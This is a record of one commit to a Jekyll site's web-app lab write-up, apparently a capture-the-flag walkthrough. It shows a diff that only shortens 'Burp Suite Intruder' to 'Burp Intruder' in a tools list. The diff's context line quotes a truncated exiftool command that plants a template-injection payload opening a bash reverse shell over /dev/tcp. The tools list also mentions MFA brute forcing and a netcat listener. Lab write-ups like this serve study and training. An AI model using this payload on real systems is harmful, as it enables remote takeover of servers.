

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/Verbose.md, in a window 1280 px wide and 900 px high, scrolled down 8505 px. Shown: the part 153-453 px from the top of the window, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update Verbose.md

```diff
--- a/labs/webapp/Verbose.md
+++ b/labs/webapp/Verbose.md
@@ -327,7 +327,7 @@ exiftool -Artist='{{lipsum.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/1
 
 ## Tools Used
 
-- **Burp Suite Intruder** - MFA brute force with throttling
+- **Burp Intruder** - MFA brute force with throttling
 - **exiftool** - EXIF metadata manipulation
 - **convert** (ImageMagick) - Create minimal PNG files
 - **nc** (netcat) - Reverse shell listener
```
